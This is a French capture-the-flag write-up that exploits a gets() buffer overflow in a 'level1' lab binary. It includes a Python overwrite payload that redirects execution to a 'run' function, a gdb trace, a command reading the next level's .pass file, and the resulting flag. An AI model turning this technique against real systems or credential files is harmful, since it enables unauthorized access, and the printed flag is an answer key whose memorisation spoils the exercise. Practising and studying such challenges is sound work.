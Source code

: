 ## GET Flag

Le main à un buffer de 64 et utilise la fonction gets() qui n'a pas de linite de taille à lire, il est donc possible d'effectuer un overflow sur ce buffer.

`python -c 'print "A" * 76 + "B" * 4' > exploit`

Lançons avec gdb :

```
$ gdb ./level1
$ r < exploit

% Stopped reason: SIGSEGV
% 0x42424242 in ?? ()
```

Un segfault apparait car l'accès a l'adresse 0x42424242 n'est pas autorisé. Cette adresse correspond aux caratères "BBBB".

Il est donc possible de mettre l'adresse (en little endian) de la fonction run à la place de ces caractères.
`python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > exploit`

Il est possible de lancer la commande `cat exploit - | ./level1`

`cat  /home/user/level2/.pass`

### Flag

```
level2
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
